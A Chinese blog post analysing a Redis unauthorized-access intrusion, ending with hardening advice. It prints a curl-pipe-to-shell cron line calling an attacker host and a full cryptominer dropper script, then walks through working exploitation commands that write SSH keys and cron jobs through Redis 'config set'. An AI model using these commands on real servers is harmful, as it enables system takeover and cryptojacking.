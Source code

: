 ```yaml
---
layout:     post
title:      "Redis安全问题分析"
date:       2017-03-03 16:48:00 +0800
category:   "redis"
tags:       ["security", "redis"]
excerpt:    "最近由于特殊原因，服务器在公网上开放了redis端口(没有鉴权)和mysql端口，期间胆战心惊的。不过该来的迟早要来，还是被别有用心的人盯上了，现在想来仍心有余悸，背后直冒冷汗。开放在公网没多久，同事就反映redis里面有异常数据，0号db里面数据都被清除了，只剩下个`crackit`键，键值为："
---
```


## redis被侵入

最近由于特殊原因，服务器在公网上开放了redis端口(没有鉴权)和mysql端口，期间胆战心惊的。不过该来的迟早要来，还是被别有用心的人盯上了，现在想来仍心有余悸，背后直冒冷汗。开放在公网没多久，同事就反映redis里面有异常数据，0号db里面数据都被清除了，只剩下个`crackit`键，键值为：

```bash
\n\n*/5 * * * * /usr/bin/curl -fsSL http://sx.doiton.tk/test.sh | sh\n\n
```

### 检查1:计划任务

看到这个，很自然会想到crond的计划任务，`*/5 * * * * /usr/bin/curl -fsSL http://sx.doiton.tk/test.sh | sh`的意思是"每5分钟去下载并执行这个test脚本"。所以第一时间去检查系统计划任务，但是并没有发现什么，貌似这个计划任务并没有添加成功(因为机器上运行redis服务的是一个nologin的用户)。

`crontab -l`可以查看当前用户的所有计划任务，但是难免会有遗漏，或者通过其他用户添加，我们最好是查看下`/var/spool/cron/`目录下所有文件。crond的具体操作以及命令格式，可以看我之前的文章 -- [crond环境变量问题](/2016/12/16/crond-env-problems/) 。

### 检查2:脚本内容

计划任务没有发现什么问题，所以只好去看看入侵者想要下载和执行的脚本，或许能发现什么。下载完脚本，打开之后，内容如下(注释是本人添加)：

```bash
#!/bin/bash
# 查看系统中是否运行minerd这个挖矿软件
Jin=`ps -ef|grep minerd|grep -v grep|wc -l`
# 找到minerd进程的pid
Pid=`ps -ef|grep minerd|grep -v grep|awk '{print $2}'`
# 统计指向指定比特币账户的minerd进程数量
Qianbao=`ps -ef|grep minerd|grep -v grep|grep "44GpQ3X9aCR5fMfD8myxKQcAYjkTdT5KrM4NM2rM9yWnEkP28mmXu5URUCxwuvKiVCQPZaoYkpxxzKoCpnED6Gmb2wWJRuN"|wc -l`
# 杀掉竞争对手AnXqV挖矿软件
ps auxf|grep -v grep|grep AnXqV |awk '{print $2}'|xargs kill -9

# 如果系统中运行有minerd
if [ $Jin -eq  1 ];then
    # 如果minerd不是指向自己账户，杀掉minerd进程，并且将minerd下载在/opt目录下，运行下载的minerd并指向自己账户
    if [ $Qianbao -eq 0 ];then
        kill -9 $Pid
        cd /opt
        if [ ! -f minerd ];then
            curl -L http://sx.doiton.tk/minerd -o minerd \
            &&   chmod +x minerd
        fi
        /opt/minerd -B -a cryptonight -o stratum+tcp://xmr.crypto-pool.fr:80 -u 44GpQ3X9aCR5fMfD8myxKQcAYjkTdT5KrM4NM2rM9yWnEkP28mmXu5URUCxwuvKiVCQPZaoYkpxxzKoCpnED6Gmb2wWJRuN -p x &>>/dev/null
    fi
fi

# 如果系统中没运行minerd，直接将minerd下载在/opt目录下，运行下载的minerd并指向自己账户
if  [ $Jin -ne  1 ];then
    kill -9 $Pid
    cd /opt
    if [ ! -f minerd ];then
        curl -L http://sx.doiton.tk/minerd -o minerd \
        &&   chmod +x minerd
    fi
    /opt/minerd -B -a cryptonight -o stratum+tcp://xmr.crypto-pool.fr:80 -u 44GpQ3X9aCR5fMfD8myxKQcAYjkTdT5KrM4NM2rM9yWnEkP28mmXu5URUCxwuvKiVCQPZaoYkpxxzKoCpnED6Gmb2wWJRuN -p x &>>/dev/null
 fi
```

分析完脚本之后，通过`ps aux | grep -v grep | grep [name]`查看下系统中是否运行有`minerd`或者`AnXqV`。很庆幸，系统中没有运行这两种挖矿软件，估计上一步`计划任务`没添加成功。

## 还原过程

侥幸逃过了一劫，庆幸之余来分析下入侵者的入侵过程。

> redis的安全理念是，“不要将Redis暴露在公网中, 因为让不受信任的客户接触到Redis是非常危险的”。redis作者之所以放弃解决未授权访问导致的不安全性是因为, 99.99% 使用 Redis 的场景都是在沙盒化的环境中, 为了0.01%的可能性增加安全规则的同时也增加了复杂性, 虽然这个问题的并不是不能解决的, 但是这在他的设计哲学中仍是不划算的。[[1]](http://blog.knownsec.com/2015/11/analysis-of-redis-unauthorized-of-expolit/)

当然，使用者将redis端口绑定在默认的`0.0.0.0:6379`，以具有某权限的用户运行，并且没有开启鉴权，也没采取相关防火墙策略，将不需认证的redis服务器暴露在公网，才是这类事件的罪魁祸首。

因为redis自身提供`config`命令，该命令本来是用来动态调整redis配置的，但是既然能写文件(也能修改配置文件地址)，那么自然可以用来进行一些其他的操作。

### 扫描端口

公网上有很多用户运行redis，其实都监听默认端口6379，并且没有开启auth鉴权。我们可以很轻松的扫描到这样的用户，然后实施入侵(并不建议这么做，已经是犯罪)：

```bash
# 安装nmap扫描器
$ sudo yum install nmap (红帽系或者SUSE) 或者 sudo apt-get install nmap (debian系)

# 扫描网络中活动主机(网段可以自己修改)
$ nmap -sn 192.168.2.0/24

# 扫描特定主机的开放端口(地址、地址段自己修改)
$ nmap 192.168.2.0,100-200

# 找到主机上监听端口的服务
$ nmap -sV 192.168.2.22

# 查看主机上端口的详细信息
$ nmap -sC 192.168.2.22 -p 6379

# 特定漏洞脚本利用(这个不是重点)
$ nmap --script=[path] 192.168.2.22 -p 6379
```

扫描到可利用的端口后，我们就可以进行下一步操作了。我们可以进行比较常见的操作：添加计划任务执行特定操作，或者将ssh公钥添加到主机方便以后利用。

### 利用1：添加ssh公钥

在主机redis中添加一个`crackit`的键值对

```bash
# 生成rsa密钥对(公钥和私钥)
$ ssh-keygen -t rsa
# 将公钥写入文件，私钥保留
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > test.txt
# 将公钥写入redis
$ cat test.txt | redis-cli -h 192.168.2.22 -x set "crackit"
```

通过`config`命令，修改配置路径，将公钥写入主机`/root/.ssh/authorized_keys`。

```bash
$ redis-cli -h 192.168.2.22
    > flushall
    > config set dir "/root/.ssh"
    > config set dbfilename "authorized_keys"
    > save
```

公钥写入成功之后，我们便可以使用之前生成的私钥来访问对应的主机，后面的操作自己脑补。

### 利用2：添加计划任务

在主机redis中添加一个`crackit`的键值对

```bash
# 将计划任务命令写入文件
$ (echo -e "\n\n*/5 * * * * /usr/bin/curl -fsSL http://192.168.2.1/test.sh | sh\n\n") > test.txt
# 将计划任务内容写入redis
$ cat test.txt | redis-cli -h 192.168.2.22 -x set "crackit"
```

添加任务计划操作，其实和添加公钥差不多，只是将目录修改成`/var/spool/cron/`，系统中便自动添加了一个计划任务。

```bash
$ redis-cli -h 192.168.2.22
    > flushall
    > config set dir "/var/spool/cron/"
    > config set dbfilename "root"
    > save
```

添加计划任务成功以后，系统便会定时运行我们写好的脚本，具体能做什么取决于你的脚本内容。

## 影响和应对

影响：

- redis作为数据库，如果被入侵，导致数据泄露或者数据丢失，会给用户带来很大损失。
- 入侵者通过redis执行lua脚本，或者添加计划任务，或者添加ssh公钥，都可能使机器沦为肉鸡，被人使用。

应对措施：

1. 配置`/etc/redis.config`文件，修改bind选项，绑定特定IP地址(内网地址或者回环地址)可以限制部分IP访问。
2. 配置`/etc/redis.config`文件，修改port选项，修改默认监听6379端口，避免被人轻易扫描到。
3. 配置`/etc/redis.config`文件，修改requirepass选项，添加redis服务器鉴权，增强安全性。
4. 配置`/etc/redis.config`文件，修改rename-command选项，将危险命令重命名。
5. 创建单独的nologin系统用户，用来运行redis，避免被入侵后提权(执行代码或者命令)，千万不能以root运行redis服务。
6. 对主机添加ACL或者防火墙进行网络访问控制，云主机可以设置安全组。

最近除了redis被劫持，mongodb、mysql等数据被勒索的新闻也能经常听到，所以提高自身安全意识才是最根本的。
